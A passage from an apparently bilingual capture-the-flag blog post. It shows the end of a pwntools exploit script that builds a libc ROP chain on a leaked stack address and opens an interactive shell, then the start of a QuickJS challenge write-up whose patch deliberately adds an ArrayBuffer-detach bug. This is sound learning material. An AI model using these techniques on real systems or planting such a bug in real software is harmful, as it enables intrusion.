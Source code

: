 ```py
adder((libc_base + 0x00000000000286e7) >> 32, stack_leak + 0x1dc,aaa=True)
adder((libc_base + 0x0000000000027b72+1) & 0xffffffff, stack_leak + 0x1f8,aaa=True)
adder((libc_base + 0x0000000000027b72+1) >> 32, stack_leak + 0x1fc,aaa=True)
adder((libc_base + 0x56410) & 0xffffffff, stack_leak + 0x200,aaa=True)
adder((libc_base + 0x56410) >> 32, stack_leak + 0x204,aaa=True)


pause()
p.sendlineafter("(Y/N)", 'N')


p.interactive()
p.close()
```

I was the first to solve this challenge during the competition btw :)


### Closing Statement
Well 2020 was a disaster but the CTF's were awesome. Let's hope 2021 is even better :D

<br>
<br>
<br>

## Indonesian
Tahun 2020 cukup parah, tapi mengerjakan soal CTF tetap seru. Pada tahun 2020, saya sendiri berpartisipasi di tujuh (7) CTF, menang empat (4) and mengadakan satu (1). Dari semua CTF itu, berikut 3 soal favoritku.

### 1. NotSoFast (Redmask CTF 2020 Quals)
NotSoFast merupakan soal _Javascript Exploitation_ yang menggunakan engine quick js. Pembuat soal ini tidak lain dan tidak bukan Usman Abdul Halim, sang jago. Anda dapat unduh semua file soal ini pada link [ini](https://drive.google.com/drive/folders/1MWZBBxaByKVMAgB-7WlES8cGFbuXjP5F?usp=sharing)

Engine quick js merupakan proyek yang open source, dan soal ini meng-_compile_ ulang quick js, tapi menambahkan suatu patch terlebih dahulu. Bug pada soal ini terdapat pada patchnya.

```patch
diff --git a/quickjs-libc.c b/quickjs-libc.c
index e8b81e9..9b1cb23 100644
--- a/quickjs-libc.c
+++ b/quickjs-libc.c
@@ -3689,6 +3689,13 @@ static JSValue js_print(JSContext *ctx, JSValueConst this_val,
     return JS_UNDEFINED;
 }
 
+static JSValue js_detachArrayBuffer(JSContext *ctx, JSValue this_val,
+                                    int argc, JSValue *argv)
+{
+    JS_DetachArrayBuffer(ctx, argv[0]);
+    return JS_UNDEFINED;
+}
+
 void js_std_add_helpers(JSContext *ctx, int argc, char **argv)
 {
     JSValue global_obj, console, args;
@@ -3697,6 +3704,11 @@ void js_std_add_helpers(JSContext *ctx, int argc, char **argv)
     /* XXX: should these global definitions be enumerable? */
     global_obj = JS_GetGlobalObject(ctx);
 
+    /* Add new how2heap helper function */
+    JS_SetPropertyStr(
+        ctx, global_obj, "ArrayBufferDetach",
```